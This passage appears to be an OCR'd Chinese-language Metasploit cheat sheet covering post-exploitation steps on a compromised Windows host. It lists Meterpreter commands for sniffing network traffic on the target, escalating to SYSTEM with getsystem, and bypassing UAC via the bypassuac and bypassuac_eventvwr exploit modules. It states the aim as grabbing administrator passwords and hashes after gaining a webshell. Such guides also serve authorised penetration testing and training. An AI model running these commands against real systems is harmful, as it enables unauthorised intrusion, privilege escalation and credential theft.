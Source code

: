 **sniffer**
```bash
use sniffer
sniffer_interfaces                  # 查看网卡信息
sniffer_start 1                     # 开始在序号为1的网卡上抓包
sniffer_dump 1 xpsp1.cap            # 下载抓取到的数据包
```

对抓取的包进行解包
```bash
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
```

---

## 权限提升

```bash
getuid      # 查看当前权限
getsystem   # 提权
getuid      # 再次查看判断是否提权成功
```

**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

1. 什么是 UAC？

    Microsoft 的 Windows Vista 和 Windows Server 2008 操作系统引入了一种良好的用户帐户控制架构,以防止系统范围内的意外更改,这种更改是可以预见的,并且只需要很少的操作量.它是 Windows 的一个安全功能,它支持防止对操作系统进行未经授权的修改,UAC 确保仅在管理员授权的情况下进行某些更改.如果管理员不允许更改,则不会执行这些更改,并且 Windows 系统保持不变.

2. UAC 如何运行？

    UAC 通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行.除非尝试执行这些操作的进程以管理员权限运行,否则这些操作将无法运行.如果你以管理员身份运行程序,则它将具有更多权限,因为它将被"提升权限",而不是以管理员身份运行的程序.

    因为有的用户是没有管理员权限,没有管理员权限是运行不了那些只能通过管理员权限才能操作的命令.比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作.

    最直接的提权命令 : getsystem

    绕过 UAC 防护机制的前提是我们首先通过 explloit 获得目标主机的 meterprter.获得 meterpreter 会话 1 后,输入以下命令以检查是否是 system 权限.这里直接上命令.我们需要把获取到的 session 保存到后台,执行 background

```bash
background
use exploit/windows/local/bypassuac
# 将通过进程注入使用可信任发布者证书绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.
sessions        # 查看目前的 session
sessions -k     # 杀死所有 session
set session     # 设为你需要 exploit 的 session
```

- **Windows 权限提升绕过 UAC 保护(内存注入)**
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```
